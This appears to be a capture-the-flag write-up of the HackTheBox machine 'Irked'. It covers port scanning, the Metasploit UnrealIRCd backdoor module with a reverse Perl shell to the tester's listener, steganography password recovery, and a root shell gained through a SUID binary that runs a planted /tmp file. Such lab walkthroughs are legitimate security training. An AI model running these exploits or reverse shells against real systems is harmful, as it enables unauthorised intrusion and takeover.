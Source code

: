 ```yaml
---
title: "HackTheBox: Irked"
layout: archive
date:   2021-01-01
tags: HackTheBox
tags_label: true
---
```

Doing some retired machines for extra practice. I tried this one two years and got stuck. This time I got it 😀.

### Scanning:

Finding running services on common ports:

```
crazyeights@es-base:~$ sudo nmap -sS 10.10.10.117
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-01 16:49 EST
Nmap scan report for 10.10.10.117
Host is up (0.040s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
```

#### More Thorough Scanning:

More thorough scanning, checking all ports:

```
crazyeights@es-base:~$ sudo nmap -sV -p- 10.10.10.117
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-01 16:58 EST
Nmap scan report for 10.10.10.117
Host is up (0.043s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
34547/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
```

Add the folllowing line to /etc/hosts:

```
10.10.10.117	irked.htb
```

### Web:

Index Page:

![](/assets/images/irked1.png)

*   Enumerated the server, and found nothing.

*   Downloaded the irked image, searched it for hidden text/files

*   Looks liked there is something in it, but gave up.

### IRC:

*   Connect to the IRC service with somesort of client, you will get a banner with the version

*   which is of course: 3.2.8.1 (you could probably just guess this as well)

*   There is a popular vulnerability in that version, with msf:

```
   13  exploit/unix/irc/unreal_ircd_3281_backdoor        2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution
```

*   set RHOSTS to 10.10.10.117

*   set RPORT to 6697

**Set the payload:**

```
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 10.10.14.3
LHOST => 10.10.14.3
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.117     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   6697             yes       The target port (TCP)


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

```

**Run the exploit:**

```
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Command shell session 1 opened (10.10.14.3:4444 -> 10.10.10.117:50228) at 2021-01-01 17:19:06 -0500

```

### User:

**Spawn an interactive shell:**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ircd@irked:~/Unreal3.2$ 

```

When enumerating we find the user djmardov:

Listing the contents of his home folder we find the user flag and the file backup

```
ls -aR
.:
.	       .bashrc	Desktop    .gnupg	  Music     .ssh
[SNIP]

./Documents:
.  ..  .backup	user.txt

```

We do not have permissions to read user.txt, but we can read backup:

```
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

*   The 'steg' of 'Super elite steg backup pw' suggests that this a password for something involving stego.

*   Go back to the irked.jpg

#### Stego:

Extract hidden file from irked.jpg:

```
crazyeights@es-base:~/Downloads$ steghide extract -sf irked.jpg 
Enter passphrase: 
wrote extracted data to "pass.txt".

crazyeights@es-base:~/Downloads$ cat pass.txt 
Kab6h+m+bbp2J:HG
```

Use the password to login to SSH as djmardov:

```
crazyeights@es-base:~$ ssh djmardov@10.10.10.117
```

##### User Flag:

```
djmardov@irked:~$ cd Documents/
djmardov@irked:~/Documents$ ls
user.txt
djmardov@irked:~/Documents$ cat user.txt 
4a66a_i_dont_want_to_get_in_trouble
```

### Root:

**Find programs user can run with euid root:**

```
djmardov@irked:~/Documents$ find / -perm /4000 2>/dev/null
[SNIP]
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
```

*   The program viewuser is non-standard, so might be vulnerable

*   When checking viewuser we see it calls /tmp/listusers which doesn't exist:

```
djmardov@irked:~/Documents$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-01-01 16:42 (:0)
djmardov pts/1        2021-01-01 17:26 (10.10.14.3)
sh: 1: /tmp/listusers: not found
djmardov@irked:~/Documents$ 
```

*   We can create a program listusers that would be called with elevated privileges

*   Insert a shell into the file listusers, and make it executable:

```
djmardov@irked:~/Documents$ cd /tmp
djmardov@irked:/tmp$ echo /bin/sh > listusers
djmardov@irked:/tmp$ chmod a+x listusers
```

Run viewuser again:

```
djmardov@irked:/tmp$ /usr/bin/viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-01-01 16:42 (:0)
djmardov pts/1        2021-01-01 17:26 (10.10.14.3)
# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
#
```

It calls our program listusers, which gives us a root shell

#### Root Flag:

```
# cd /root
# ls
pass.txt  root.txt
# cat pass.txt
Kab6h+m+bbp2J:HG
# cat root.txt
8d8e9_i_dont_want_to_get_in_trouble
```

FIN.